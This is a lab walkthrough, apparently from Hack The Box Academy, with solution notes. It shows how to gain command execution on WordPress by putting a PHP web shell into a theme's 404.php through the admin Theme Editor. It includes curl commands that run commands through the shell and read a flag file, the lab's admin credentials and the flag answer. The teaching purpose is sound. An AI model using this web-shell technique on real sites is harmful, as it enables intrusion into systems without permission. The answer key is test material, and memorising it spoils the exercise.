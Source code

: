 ## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

Code: php

```php
<?php system($_GET['cmd']); /** * The template for displaying 404 pages (not found) * * @link https://codex.wordpress.org/Creating_an_Error_404_Page <SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

```shell
p3ta@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

# Question 
Use the credentials for the admin user [admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.

![[Pasted image 20231215153930.png]]

![[Pasted image 20231215153936.png]]

Subsequently, students need to choose the `404 Template` page and add to it at the top a PHP web shell and then click on "Update File":

Code: php

```php
system($_GET['cmd']);
```

![[Pasted image 20231215154046.png]]

At last students need to utilize the web shell to fetch the contents of the flag file in the home directory for the `wp-user` directory:

Code: shell

```shell
curl -s http://STMIP:STMPO/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/wp-user/flag.txt
```

```shell-session
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s http://46.101.28.14:31864/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/wp-user/flag.txt | grep "HTB"

HTB{rc3_By_d3s1gn}
```

Answer: `HTB{rc3_By_d3s1gn}`